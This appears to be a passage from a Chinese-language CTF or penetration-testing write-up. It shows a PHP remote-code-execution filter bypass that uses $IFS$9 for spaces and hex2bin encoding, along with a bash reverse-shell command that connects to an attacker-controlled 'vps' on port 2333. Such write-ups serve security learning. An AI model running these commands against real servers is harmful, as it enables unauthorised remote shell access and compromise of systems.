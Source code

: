 [![](assets/1701678867-be3a8be960e955e53707e9a025f50f48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203613-b732b5ac-8dea-1.png)

空格被过滤了，绕过一下

```plain
system('ls$IFS$9/');
```

尝试利用 RCE 写一个 shell

这里经过测试正常的打 webshell 好像不太行，fuzz 一下，看看过滤了哪些东西

貌似

```plain
#''- &\*()|
```

都被过滤了，尝试直接 hex2bin/base64\_decode 编码绕一下，弹个 shell 先

```plain
bash -c "bash -i >& /dev/tcp/vps/2333 0>&1"
```

```plain
system(hex2bin(16 进制))
```

[![](assets/1701678867-1b22ff78c5d85d86ca8977026a931189.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203619-bacd0a78-8dea-1.png)
